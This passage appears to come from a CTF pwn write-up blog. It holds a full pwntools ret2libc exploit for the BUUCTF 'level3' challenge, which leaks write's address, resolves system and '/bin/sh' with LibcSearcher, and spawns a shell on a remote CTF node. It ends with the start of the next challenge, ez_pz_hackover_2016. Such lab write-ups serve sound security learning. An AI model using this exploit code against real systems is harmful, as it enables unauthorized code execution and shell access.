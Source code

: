 ```python
payload=junk+p32(system)+p32(main)+p32(binsh)
```

exp

```python
from pwn import*
from LibcSearcher import*

context(os='linux',arch='i386',log_level='debug')
io=remote('node4.buuoj.cn',29103)
#io=process()
elf=ELF('/home/kali/文档/题目/pwn/BUUCTF/level3'  )

junk=b'a'*(0x88+4)
main=elf.sym['main']
write_plt=elf.plt['write']
write_got=elf.got['write']
ret_addr=0x080482da 

payload=junk+p32(write_plt)+p32(main)+p32(1)+p32(write_got)+p32(4)
io.recvuntil('Input:\n')
io.sendline(payload)
write_addr=u32(io.recv()[0:4])
print(hex(write_addr))

libc=LibcSearcher('write',write_addr)
base=write_addr-libc.dump('write')
system=base+libc.dump('system')
binsh=base+libc.dump('str_bin_sh')

payload=junk+p32(system)+p32(main)+p32(binsh)
#io.recvuntil('Input:\n')
io.sendline(payload)
io.interactive()
```

<img src="https://cdn.jsdelivr.net/gh/lucky-xiaobai/CTFPicture/img/202203181122846.png" alt="image-20220318112250784" style="zoom:80%;" />

2022/03/18



## ez_pz_hackover_2016

检查保护

<img src="https://cdn.jsdelivr.net/gh/lucky-xiaobai/CTFPicture/img/202203181655183.png" alt="image-20220318165522094" style="zoom:80%;" />

32位，仅开启relro保护(地址随机化)。

ida打开看看

<img src="https://cdn.jsdelivr.net/gh/lucky-xiaobai/CTFPicture/img/202203191004333.png" alt="image-20220318170104658" style="zoom:80%;" />
